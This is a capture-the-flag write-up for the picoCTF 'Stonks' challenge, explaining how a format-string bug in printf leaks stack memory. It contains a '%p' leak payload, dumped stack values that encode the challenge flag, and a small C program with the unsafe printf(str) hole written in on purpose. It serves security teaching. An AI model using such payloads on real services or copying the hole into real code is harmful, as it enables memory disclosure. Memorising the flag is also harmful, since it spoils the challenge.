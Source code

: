 # Stonks

## Problem Definition

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

## Solution

When we examine the program with a code editor we see that it's using the unsafe version of `printf` when getting the users' authorization token.

With the unsafe version of `printf` we can then dump content of the binary and execute code. Also, important to know for this are calling conventions. When first looking at the problem we noticed that the server was dumping _some_ data from the program but not which data.

Consider our experimental setup from below:

`$ ./vuln < <(python3 -c "print(1);print('%p.' * 20)")`

Which dumped us the following values from the program.

{% code overflow="wrap" %}
```html
0x1.0x1.0x7f3008bc6190.0x55744ead10d5.0x7f3008ca0a80.0x7ffdc1c45b20.0x55744f6d52a0.
0x7b4654436f636970.0x5f737469625f3631.0x5f64343374736e69.0x3636325f385f666f.
0x7d3032633438.0x7f3008ca0260.0x55744ead3080.0x7f3008c9d5e0.0x7f3008cf0020.
0x7f3008b4fe79.0x7f3008ca1760.0x7f3008b50283.0x14.
```
{% endcode %}

While we know that some of the values are ascii characters we could not find indicators as to why the first to variables were `1`s. The solution was that under `64 bit` Linux the calling convention for syscalls takes arguments from the registers first, unlike with `32 bit` Linux. When compiling the binary under `32 bit` with the flag `-m32` in `gcc` we see that we get a different result:

```
0x567bb3d0.0x565caff4.0x565c84ae.0xf7f76da0.0x7d4.0xf7f76de7.0x6f636970.0x7b465443.
0x625f3631.0x5f737469.0x74736e69.0x5f643433.0x385f666f.0x3636325f.0x32633438.
0xff007d30.0xf7fcac18.0xf7f8e800.0x1.0x1.
```

### Verification of our Hypotheses

To verify this hypotheses we constructed a smaller binary from this source:

```c
#include<stdio.h>
#include <string.h>

int main()
{
    char str[15];
    char *secret="You don't get to see this";
    puts("I will repeat whatever you say");
    scanf("%s",str);
    strcat(str, "\n");
    printf(str);
    return 0;
}
```

Verification with `gdb` indicated that it was indeed the case that `printf` took variables for the `32 bit` version from the stack first instead of using the registers like in the `64 bit` version. We used the format string `%p.%p.%p.%p.%p.%p.` and got `0xffffcd3d.0xf7da8a2f.0x565561d4.0xf7fc14a0.0xf7fd98cb.0xf7da8a2f.` as an answer. This is verified by taking a look at the stack from `gdb` at the time when `printf` is called. Since `printf` now takes all arguments from the stack we also see that we leak pointers that lie behind this.

```c
[----------------------------------registers-----------------------------------]
EAX: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EBX: 0x56558ff4 --> 0x3ef0
ECX: 0x330d ('\r3')
EDX: 0x12
ESI: 0x56558eec ("`aUV\001")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0xffffcd58 --> 0x0
ESP: 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EIP: 0x5655622d (<main+112>:    call   0x56556040 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56556226 <main+105>:       sub    esp,0xc
   0x56556229 <main+108>:       lea    eax,[ebp-0x1b]
   0x5655622c <main+111>:       push   eax
=> 0x5655622d <main+112>:       call   0x56556040 <printf@plt>
   0x56556232 <main+117>:       add    esp,0x10
   0x56556235 <main+120>:       mov    eax,0x0
   0x5655623a <main+125>:       lea    esp,[ebp-0x8]
   0x5655623d <main+128>:       pop    ecx
Guessed arguments:
arg[0]: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0004| 0xffffcd24 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0008| 0xffffcd28 --> 0xf7da8a2f ("_dl_audit_preinit")
0012| 0xffffcd2c --> 0x565561d4 (<main+23>:     add    ebx,0x2e20)
0016| 0xffffcd30 --> 0xf7fc14a0 --> 0xf7d8c000 --> 0x464c457f
0020| 0xffffcd34 --> 0xf7fd98cb (mov    edi,eax)
0024| 0xffffcd38 --> 0xf7da8a2f ("_dl_audit_preinit")
0028| 0xffffcd3c --> 0x2e7025a0
[------------------------------------------------------------------------------]
```
